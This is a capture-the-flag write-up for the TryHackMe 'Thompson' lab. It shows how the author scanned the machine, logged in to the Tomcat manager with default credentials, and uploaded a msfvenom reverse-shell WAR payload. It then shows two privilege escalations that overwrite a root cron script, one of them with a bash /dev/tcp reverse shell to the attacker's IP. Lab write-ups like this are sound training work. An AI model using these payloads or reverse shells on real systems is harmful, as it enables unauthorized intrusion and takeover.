 ```yaml
---
title : Thompson - Writeup
---
```


_**Sept 30, 2020**_

[Thompson](https://tryhackme.com/room/bsidesgtthompson) Writeup

## Nmap Scan :

```
kali@kali:~$ nmap -sC -sV 10.10.218.79
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 fc:05:24:81:98:7e:b8:db:05:92:a6:e7:8e:b0:21:11 (RSA)
|   256 60:c8:40:ab:b0:09:84:3d:46:64:61:13:fa:bc:1f:be (ECDSA)
|_  256 b5:52:7e:9c:01:9b:98:0c:73:59:20:35:ee:23:f1:a5 (ED25519)
8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
|_ajp-methods: Failed to get a valid response for the OPTION request
8080/tcp open  http    Apache Tomcat 8.5.5
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/8.5.5
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Gobuster Scan :

```
/docs (Status: 302)
/examples (Status: 302)
/favicon.ico (Status: 200)
/host-manager (Status: 302)
/manager (Status: 302)
```

Checking the `/manager` with the default creds of user : `tomcat` & passwd : `s3cret` we get access.

Since we are logged in, we can create a `.WAR` payload using msfvenom and get a reverse connection.

```
kali@kali:~$ msfvenom -p java/shell_reverse_tcp lhost=10.8.14.157 lport=9991 -f war -o pwn.war
Payload size: 13402 bytes
Final size of war file: 13402 bytes
Saved as: pwn.war
```

## 1st Privilege Escalation :

I noticed that the id.sh is executed by bash every minute, so let's abuse it :

```
*  *    * * *   root    cd /home/jack && bash id.sh
```
```
tomcat@ubuntu:/home/jack$ echo "cat /root/root.txt > test.txt" > id.sh
tomcat@ubuntu:/home/jack$ cat test.txt
tomcat@ubuntu:/home/jack$ d89d*************************a3a
```

## 2nd Privilege Escalation :

```
tomcat@ubuntu:/home/jack$ echo "bash -i >& /dev/tcp/10.8.14.157/8080 0>&1" > id.sh
```
```
kali@kali:~$ nc -lnvp 8080
root@ubuntu:/home/jack# id
uid=0(root) gid=0(root) groups=0(root)
```

<br>
<br>
Best Regards

[bvr0n](https://github.com/bvr0n).

<br>
<br>

[back to main()](../../index.md)

<br>
